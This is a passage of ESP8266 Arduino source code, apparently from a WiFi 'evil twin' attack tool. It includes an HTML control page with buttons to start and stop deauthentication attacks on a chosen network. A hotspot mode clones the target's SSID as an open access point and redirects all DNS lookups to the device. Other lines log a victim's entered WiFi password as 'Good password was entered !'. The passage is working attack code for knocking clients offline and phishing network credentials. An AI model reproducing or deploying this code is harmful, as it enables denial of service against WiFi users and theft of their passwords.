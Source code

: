     dnsServer.start(53, "*", IPAddress(192, 168, 4, 1));
    Serial.println("Good password was entered !");
    Serial.println(_correct);
  }
}


String _tempHTML = "<html><head><meta name='viewport' content='initial-scale=1.0, width=device-width'>"
                   "<style> .content {max-width: 500px;margin: auto;}table, th, td {border: 1px solid black;border-collapse: collapse;padding-left:10px;padding-right:10px;}</style>"
                   "</head><body><div class='content'>"
                   "<div><form style='display:inline-block;' method='post' action='/?deauth={deauth}'>"
                   "<button style='display:inline-block;'{disabled}>{deauth_button}</button></form>"
                   "<form style='display:inline-block; padding-left:8px;' method='post' action='/?hotspot={hotspot}'>"
                   "<button style='display:inline-block;'{disabled}>{hotspot_button}</button></form>"
                   "</div></br><table><tr><th>SSID</th><th>BSSID</th><th>Channel</th><th>Select</th></tr>";

void handleIndex() {

  if (webServer.hasArg("ap")) {
    for (int i = 0; i < 16; i++) {
      if (bytesToStr(_networks[i].bssid, 6) == webServer.arg("ap") ) {
        _selectedNetwork = _networks[i];
      }
    }
  }

  if (webServer.hasArg("deauth")) {
    if (webServer.arg("deauth") == "start") {
      deauthing_active = true;
    } else if (webServer.arg("deauth") == "stop") {
      deauthing_active = false;
    }
  }

  if (webServer.hasArg("hotspot")) {
    if (webServer.arg("hotspot") == "start") {
      hotspot_active = true;

      dnsServer.stop();
      int n = WiFi.softAPdisconnect (true);
      Serial.println(String(n));
      WiFi.softAPConfig(IPAddress(192, 168, 4, 1) , IPAddress(192, 168, 4, 1) , IPAddress(255, 255, 255, 0));
      WiFi.softAP(_selectedNetwork.ssid.c_str());
      dnsServer.start(53, "*", IPAddress(192, 168, 4, 1));

    } else if (webServer.arg("hotspot") == "stop") {
      hotspot_active = false;
      dnsServer.stop();
      int n = WiFi.softAPdisconnect (true);
      Serial.println(String(n));
      WiFi.softAPConfig(IPAddress(192, 168, 4, 1) , IPAddress(192, 168, 4, 1) , IPAddress(255, 255, 255, 0));
      WiFi.softAP("WiPhi_34732", "d347h320");
      dnsServer.start(53, "*", IPAddress(192, 168, 4, 1));
    }
    return;
  }
